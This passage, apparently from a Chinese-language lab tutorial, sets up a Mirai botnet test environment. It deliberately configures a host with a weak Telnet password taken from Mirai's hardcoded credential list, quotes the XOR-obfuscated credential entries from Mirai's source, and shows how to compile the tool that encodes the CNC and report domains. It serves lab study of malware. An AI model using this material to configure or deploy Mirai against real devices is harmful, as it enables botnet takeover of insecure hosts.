     - 确保防火墙允许 Telnet 端口 (23)：sudo firewall-cmd --add-service=telnet --permanent 和 sudo firewall-cmd --reload。
        
    - 创建一个用户或修改现有用户密码，使其匹配 Mirai 默认扫描列表中的一个弱密码

新建一个 user 和 passwd 在 mirai 中的用户：
```
    add_auth_entry("\\x43\\x46\\x4F\\x4B\\x4C", "\\x16\\x11\\x10\\x13", 1);                          // admin    1234
    add_auth_entry("\\x43\\x46\\x4F\\x4B\\x4C", "\\x52\\x43\\x51\\x51", 1);                          // admin    pass
    add_auth_entry("\\x43\\x46\\x4F\\x4B\\x4C", "\\x4F\\x47\\x4B\\x4C\\x51\\x4F", 1);                  // admin    meinsm
    add_auth_entry("\\x56\\x47\\x41\\x4A", "\\x56\\x47\\x41\\x4A", 1);                              // tech     tech
    add_auth_entry("\\x4F\\x4D\\x56\\x4A\\x47\\x50", "\\x44\\x57\\x41\\x49\\x47\\x50", 1);              // mother   fucker
```
1. 创建用户 mother：

    ```
    sudo adduser mother
    ```
    这会在系统中创建新用户 mother，并为其创建家目录等。

2. **为用户 mother 设置一个弱密码：**  
    ```
    sudo passwd mother
    ```
3. **检查 Telnet 服务状态：**

    ```
    sudo systemctl status telnet.socket
    netstat -tulnp | grep :23
    ```

    能看到 telnet.socket 处于 active (listening) 状态，并且端口 23 正在被监听。
4. 从 VMware NAT 网络下的另一台机器测试
    在另一台机器的终端中：

    ```
    telnet 192.168.8.129
    ```

### mirai 配置

#### 编译地址异或工具

```
cd mirai/tools/
gcc enc.c -o enc.out

# 生成 XOR 加密的域名

./enc.out string cnc.test.me 并记下结果。
./enc.out string report.test.me 并记下结果。
```
